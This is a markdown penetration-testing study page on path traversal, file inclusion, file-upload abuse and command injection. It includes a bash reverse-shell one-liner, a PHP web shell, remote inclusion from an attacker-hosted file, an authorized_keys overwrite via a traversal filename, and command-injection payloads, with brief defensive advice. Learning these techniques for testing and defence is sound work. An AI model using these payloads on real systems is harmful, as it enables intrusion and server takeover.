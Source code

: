 # Directory Traversal
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system). 
# File Inclusion Vulnerabilities

## Local File Inclusion
Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Exploiting a Path Traversal and a LFI in a server, could led us to open shell using a **simple reverse shell bash oneliner**, if we poison some part of the system, for example the Apache Logs in a Linux system, eg: [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

```shell
bash -i >& /dev/tcp/<IP>/4000 0>&1
```

## PHP Wrappers
```php
# php://filter
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

# php://filter/convert.base64-encode
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

```

## Remote File Inclusion
Remote File Inclusion or RFI is done the same way of LFI, but we have to be the source of the malicious script. In the case of a PHP webserver, It could be

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

And we can call the script with an inclusion of it, eg: `http://webserver.com/index.php?page=http://<attacker-ip>/malicious-file.php` . On the attacker side we have first to launch a webserver with the malicious file with

```shell
python3 -m http.server 80
```

# File Upload Vulnerabilities

## Using Executable Files
When an application accepts uploads that are later treated as server-executable (for example `.php`, `.asp`, `.aspx`, `.jsp`), an attacker can upload a web shell and execute arbitrary code through HTTP requests. To discover such an upload point, interact with obvious forms (avatars, CMS media, careers, document uploads) and try uploading a benign file such as `test.txt` to confirm the mechanism. If the application rejects files by extension, simple bypasses often work: change the extension to an alternative supported by the runtime (e.g. `.phps`, `.php7`) or modify the case of the extension (e.g. `simple-backdoor.pHP`) to evade naïve, case-sensitive blacklists. After uploading a web shell into a publicly reachable directory you can invoke it from a browser or with `curl` to run commands; for example:
```bash
# invoke a uploaded PHP webshell to list directory contents 
curl "http://TARGET/uploads/simple-backdoor.pHP?cmd=dir"
```

Defensive controls for executable uploads include enforcing a strict allowlist of MIME types and extensions (checked case-insensitively and canonicalized), storing uploads outside the web root, performing server-side content sniffing (not trusting client-provided MIME type), and preventing any user-controlled filename from becoming executable by the web server.
## Using Non-Executable Files
Even when uploads cannot be executed directly, they can still enable severe attacks when combined with other weaknesses. A common pattern is abusing a file upload together with improper path handling to write files outside the intended storage directory. If the application places uploaded files using a filename parameter that isn’t sanitized, an attacker can include relative-path sequences like `../../..` to target sensitive locations. For example, if you prepare an `authorized_keys` file containing your public SSH key and upload it using a traversal filename, you may be able to overwrite `~/.ssh/authorized_keys` and obtain SSH access:

```bash
# create keypair and prepare authorized_keys locally
ssh-keygen -f myattackkey -N ""
cat myattackkey.pub > authorized_keys

# upload using the app's form but set filename to a traversal path:
# ../../../../root/.ssh/authorized_keys
# (exact number of ../ depends on server layout)
```

If successful, connect with your private key and the appropriate port:
```bash
# connect to a non-standard SSH port with the private key 
ssh -i myattackkey -p 2222 root@TARGET
```
Other non-executable attack vectors include uploading crafted XML/SVG files that trigger XXE or embedding scriptable content in allowed image formats (e.g., SVG with inline scripts), and abusing application features that permit users to rename or move files after upload so an innocuous file becomes sensitive. When testing such techniques, be mindful that overwriting files on production systems can cause data loss or downtime.

Defensive measures against non-executable abuse include canonicalizing and sanitizing all filenames, rejecting any `..` sequences or absolute paths, forcing uploads into a server-controlled directory (no user-controlled destination), applying strict file permissions, performing content validation and scanning, and isolating uploads from sensitive system paths.

# Command Injection
Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

This attack differs from Code Injection, in that code injection allows the attacker to add their own code that is then executed by the application. In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code. For example if a web server executes a command on the operating system below and doesn't sanitize the input, could let the attacker craft a payload with some special characters like `;` or `&&` that are used to concatenate commands in a system. A practical example could be a server that arguments for a known command, eg: ls

```shell
http://<target-url>/pages/command=cmd=ls;id
```

In that case the webserver executes `ls` among with the `id` command.
```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```